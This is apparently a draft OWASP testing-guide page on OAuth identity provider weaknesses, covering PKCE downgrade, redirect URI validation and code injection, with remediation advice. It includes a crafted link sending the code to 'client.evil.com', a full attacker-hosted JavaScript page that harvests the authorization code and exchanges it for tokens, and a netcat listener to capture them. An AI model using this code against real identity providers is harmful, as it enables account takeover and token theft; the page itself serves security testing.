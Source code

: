 # Testing OAuth IdP Weaknesses

|ID            |
|--------------|
|WSTG-ATHZ-05.1|

## Summary

OAuth stores the identities of users and the correspondent access rights at the IdP (Identity Provider). The IdP does play a crucial role during the OAuth flow as it grants access to clients. To be able to do that it must properly validate parameters which are part of the OAuth flows.

Failure to validate the paramaters may lead to  account takeover, unauthorized ressource access and the elevation of privileges.

## Test Objectives

- Retrieve credentials used for authorization
- Grant yourself access to arbitrary ressources trough forcefull browsing
- Bypass the authorization

## How to test

### PKCE Downgrade Attack

Under certain circumstances the PKCE extension can be removed from the authorization code flow. This has the potential to leave public clients vulnerable to attacks mitigated by the PKCE extension.

- The authorization server does not support PKCE
- The authorization server does not properly validate PKCE

Both can be tested with a proxie tool like OWASP ZAP. An attacker may start the OAuth flow and remove  the `code_challenge=sha256(xyz)` and `code_challenge_method` parameter from the request.

**Original Request:**

```http
GET /authorize?redirect_uri=http%3A%2F%client.example.com&client_id=ZXhhbXBsZQ%3d%3d&errorPath=%2Ferror&scope=openid%20profile%20email&response_type=code&response_mode=web_message&state=ZXhhbXBsZQ%3d%3d&nonce=ZFMybmVFQlQ2fkgxUm1EWGJFS2hhQV83SVBNTVN0MkEtYWlnWUZuS1dlNA%3D%3D&code_challenge=Vgn0iTdmqaLcXzAa_UXRRvcpNSqHgGStkZv-h4kdZqs&code_challenge_method=S256&prompt=none HTTP/2
Host: idp.example.com
```

**Modified Request:**

```http
GET /authorize?redirect_uri=http%3A%2F%client.example.com&client_id=ZXhhbXBsZQ%3d%3d&errorPath=%2Ferror&scope=openid%20profile%20email&response_type=code&response_mode=web_message&state=ZXhhbXBsZQ%3d%3d&nonce=ZFMybmVFQlQ2fkgxUm1EWGJFS2hhQV83SVBNTVN0MkEtYWlnWUZuS1dlNA%3D%3D&prompt=none HTTP/2
Host: idp.example.com
```

### Testing for insufficient Redirect URI Validation

The OAuth flow makes use of a `redirect_uri` in the authoritation request. If this uri is not properly validated a link can be crafted that contains a attacker controlled URL, `client.evil.com` in this example.

- `
https://idp.example.com/auth/realms/example/protocol/openid-connect/auth?client_id=app-angular2&redirect_uri=http%3A%2F%client.evil.com%2Fapp-angular2%2F&state=19abbae7-79cb-4e82-8ea1-897d98251f4e&response_mode=fragment&response_type=code&scope=openid&nonce=636db683-18ba-4c92-a56f-a7f7ccd772ce HTTP/1.1
`

If a user opens the link in the user-agent, the IdP will redirect the user agent to the spoofed URL.
The attacker can host a script on the spoofed URL that captures the `code` value and submits it back to the IdP's token endpoint.  

This can be archived with the following sample code hosted at the attacker controlles server.
Note: This JavaScript is compatible with Keycloak IdPs, other IdPs may need tweaking of the requests.
Furthermore the attack will fail when the IdP has CORS configured and blocks cross-origin requests.

If CORS is configured a setup involving server side technologies such as a python app, that allow the spoofing of the origin header, are required.

```JavaScript
<html>
    <body>
    <head>
        <title>OAuth open redirects</title>
    </head>
<h3>OAuth code: </h3>

<p id="code"></p>

<script>

    var hash = location.hash.substring(1);

    var result = hash.split('&').reduce(function (res, item) {
    var parts = item.split('=');
    res[parts[0]] = parts[1];
    return res;
    }, {});

    var code = result.code
    document.getElementById("code").innerHTML = "The code got phished: " + code;

    function submitStep1()
       {
        var step1 = new XMLHttpRequest();
        step1.open("GET", "http:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step1.html", true);
        step1.setRequestHeader("Accept", "*\/*");
        step1.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step1.send(new Blob([aBody]));
       }


    function submitStep2()
       {
        var step2 = new XMLHttpRequest();
        step2.open("GET", "http:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/3p-cookies\/step2.html", true);
        step2.setRequestHeader("Accept", "*\/*");
        step2.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
        var body = "";
        var aBody = new Uint8Array(body.length);
        for (var i = 0; i < aBody.length; i++)
          aBody[i] = body.charCodeAt(i);
        step2.send(new Blob([aBody]));
       }
    submitStep1();
    submitStep2();


    function submitRequest()
       {
         var xhr = new XMLHttpRequest();
         xhr.open("POST", "https:\/\/idp.example.com\/auth\/realms\/example\/protocol\/openid-connect\/token", true);
         xhr.setRequestHeader("Content-type", "application\/x-www-form-urlencoded");
         xhr.setRequestHeader("Accept", "*\/*");
         xhr.setRequestHeader("Accept-Language", "en-GB,en-US;q=0.9,en;q=0.8");
         xhr.withCredentials = true;
         var body = "code=" + code + "&grant_type=authorization_code&client_id=app-angular2&redirect_uri=http%3A%2F%2Fclient.evil.com%2Fapp-angular2%2F";
         var aBody = new Uint8Array(body.length);
         for (var i = 0; i < aBody.length; i++)
           aBody[i] = body.charCodeAt(i);
         xhr.send(new Blob([aBody]));
       }
    </script>

    <form action="#">
      <input type="button" value="Submit request" onclick="submitRequest();" />
    </form>
    </body>
</html>
```

On the attacker server open a netcat listener to capture the response with the access token

```bash
nc -l -p 443
```

When the IdP validates the `code` the attacker can capture the `access_token` and `refresh_token` and therefore retrieves all rights that are assigned to the `access_token`.

### Authorization Code Injection

During the Authorization Code flow's code exchange a code is issued by the authorization server to the client
and later exchanged against the token endpoint to retrieve authorization and refresh token.

Conduct the following tests against the authorization server:

- send a valid code for another client_id
- send a valid code for another redirect_uri
- resend the code (code replay)

The request which is send towards the token endpoint contains the code as it is exchanged against the token.
Capture this request with a proxie tool like OWASP ZAP and resend the request with the tampered values.

```http
POST /auth/realms/example/protocol/openid-connect/token HTTP/1.1
Host: idp.example.com
[...]
code=26a07de1-3a69-4f8d-b131-5e3b57538ad0.15133397-373d-4526-8230-c29db9291cfb.622460b9-0522-4251-b300-1d2e71c89e41&grant_type=authorization_code&client_id=app-angular2&redirect_uri=http%3A%2F%client.example.com%2Fapp-angular2%2F
```

## Related Test Cases

- [CORS](xxx.md)
- [CSRF](xxx.md)
- [Open Redirect](xxx.md)
- [JWT](xxx.md)
- [Clickjacking](xxx.md)

## Remediation

Most of the attacks against OAuth IdPs can be mitigated by validating the existence and content of paramaters during the code and token exchange.

Retricting the timespand and allowed usage for credentials like authorization code and refresh token sucessfully thwarts some attacks and limits the use of such credentials for an attacker.

Proper configuration of security mitigations like CORS, anti CSRF token and anti-clickjacking headers can limit the impact of attacks, makes them harder to accomplish and for some completely mitigates them.

- Always validate if all parameters are present and their values. 
- Do not allow fallback for security features like the PKCE extension.
- Restrict the lifetime of credentials
- Use credentials only once where possible e.G the authorization code
- Configure available security mitigation like CORS, anti CSRF token and anti Clickjacking headers.

## Tools

- BurpSuite
- OWASP ZAP

## References

- [User Authentication with OAuth 2.0](https://oauth.net/articles/authentication/)
- [The OAuth 2.0 Authorization Framework](https://datatracker.ietf.org/doc/html/rfc6749)
- [The OAuth 2.0 Authorization Framework: Bearer Token Usage](https://datatracker.ietf.org/doc/html/rfc6750)
- [OAuth 2.0 Threat Model and Security Considerations](https://datatracker.ietf.org/doc/html/rfc6819)
- [OAuth 2.0 Security Best Current Practice](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-security-topics-16)
- [Authorization Code Flow with Proof Key for Code Exchange](https://auth0.com/docs/authorization/flows/authorization-code-flow-with-proof-key-for-code-exchange-pkce)